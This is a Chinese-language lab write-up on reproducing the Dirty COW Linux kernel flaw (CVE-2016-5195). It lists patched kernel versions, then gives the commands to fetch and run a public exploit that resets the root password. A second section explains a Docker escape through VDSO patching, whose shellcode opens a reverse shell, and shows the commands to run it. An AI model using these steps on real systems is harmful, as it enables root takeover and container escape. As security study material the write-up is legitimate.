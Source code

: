 



### 漏洞介绍
CVE-2016-5195
内存竞争导致能提权


### 影响版本
脏牛的影响范围很大，几乎涵盖了主流的Linux发行版。要判断系统是否受影响，有两个办法。

方法1：直接检查内核版本。

最简单的办法就是检查内核版本，看看内核是不是打过补丁的版本。Debian运行命令uname -v，Ubuntu/Centos/RHEL运行命令uname -r，不同发行版输出值不一样，以Debian 8为例，最新的安全内核输出如下：
```
~ uname -v
uname -v
#1 SMP Debian 3.16.36-1+deb8u2 (2016-10-19)
```
以下是主流发行版修复之后的内核版本，如果你的内核版本低于列表里的版本，表示还存在脏牛漏洞
```
Centos7 /RHEL7    3.10.0-327.36.3.el7
Cetnos6/RHEL6     2.6.32-642.6.2.el6
Ubuntu 16.10         4.8.0-26.28
Ubuntu 16.04         4.4.0-45.66
Ubuntu 14.04         3.13.0-100.147
Debian 8                3.16.36-1+deb8u2
Debian 7                3.2.82-1
```
### 环境搭建

本地虚拟机的ubuntu环境内核版本比较高，尝试使用exp提权失败，然后去下载低版本内核的ubuntu的服务器，http://old-releases.ubuntu.com/releases/14.04.3/ubuntu-14.04.1-server-amd64.iso，然后在本地搭建服务

### 漏洞复现

下载exp
https://github.com/gbonacini/CVE-2016-5195
./dcow

havaFun
如果能用直接提权，root用户更改密码

适用版本
```
The program was successfully used with:

- RHEL7 Linux  x86_64;
- RHEL4 (4.4.7-16, with "legacy" version) 
- Debian 7 ("wheezy");
- Ubuntu 14.04.1 LTS  
- Ubuntu 14.04.5 LTS
- Ubuntu 16.04.1 LTS
- Ubuntu 16.10
- Linux Mint 17.2

and compiled with: 

- clang version 4.0.0;
- gcc version 6.2.0 20161005 (Ubuntu 6.2.0-5ubuntu12) 
- gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.1) 
- gcc version 4.8.5 20150623 (Red Hat 4.8.5-4) (GCC);
- gcc version 4.8.4 (Ubuntu 4.8.4);
- gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1)
- gcc version 4.7.2 (Debian 4.7.2-5);
- gcc version 4.4.7 (with "legacy" version) 
```
### 测试环境
ubuntu16 4.8.0-22
拥有user用户，能执行./dcow
执行之后更改了root用户的口零，dirtyCowFun
直接用口令登录root用户

### 修复建议

升级内核




## 利用脏牛docker 逃逸 



我认为利用的条件比较苛刻。

我们要了解Docker逃逸漏洞是如何被利用的，就首先要知道VDSO。

在Linux中，有一个功能：VDSO(virtual dvnamic shared object),这是一个小型共享库，能将内核自动映射到所有用户程序的地址空间。

什么是VDSO呢？

### VDSO

它是一个优化性能的功能。

我们举个例子：gettimeofday是一个获取当前时间的函数，它经常被用户的程序调用，如果一个程序需要知道当前的时间，程序就会频繁的轮询。为了减少资源开销，内核需要把它放在一个所有进程都能访问的内存位置，然后通过VDSO定义一个功能来共享这个对象，让进程来访问此信息。

通过这种方式，调用的时间和资源花销就大大的降低了，速度也就变得更快。

那么如何利用VDSO来实现Docker逃逸的？

首先POC利用Dirty Cow漏洞，将Payload写到VDSO中的一些闲置内存中，并改变函数的执行顺序，使得在执行正常函数之前调用这个Shellcode。

Shellcode初始化时会检测是否被root所调用，如果调用，则继续执行，如果没有调用则返回，并执行clock_gettime函数，接下来它会检测/tmp/.X文件的存在，如果存在，则这时已经是root权限了，然后它会打开一个反向的TCP链接，为Shellcode中填写的ip返回一个Shell。

漏洞就这样产生了。

首先宿主机的内核版本符合脏牛利用的漏洞
下载docker镜像，已经包含了exp的文件
```
docker search dirtycow
下载the13的镜像，里面包含了exp
```
运行docker镜像

```
修改tag
sudo docker tag the13/dirtycow-docker-vdso dirtycow
运行镜像到容器
sudo docker run --name=test p 1234:1234 -itd dirtycow /bin/bash
```
进入容器执行exp
```
sudo docker exec -it test /bin/bash
cd /directory
make # 编译
ifconfig # 查看IP地址
./0x 127.0.0.1:1234 # 逃逸
```

![20201202095327](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201202095327.png)

exp执行失败
![20201202095356](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201202095356.png)


注意：
我试了好多次，利用是否成功要看运气。利用成功之后之后就不能再次执行exp了。要找到宿主机的ip，exp攻击地址默认是127.0.0.1:1234。
注意，这里并不是每次都能成功的，失败之后vdso_patch数组也会被填充，payload的内存地址数据不 为0，无法再次复现。失败输出：


成功的例子：
执行命令，查看当前用，创建文件，查找flag



### 参考连接
https://www.ichunqiu.com/experiment/detail?id=100297&source=2
https://www.cnblogs.com/xiaozi/p/13374514.html
https://www.freebuf.com/articles/container/242763.html
https://xz.aliyun.com/t/6167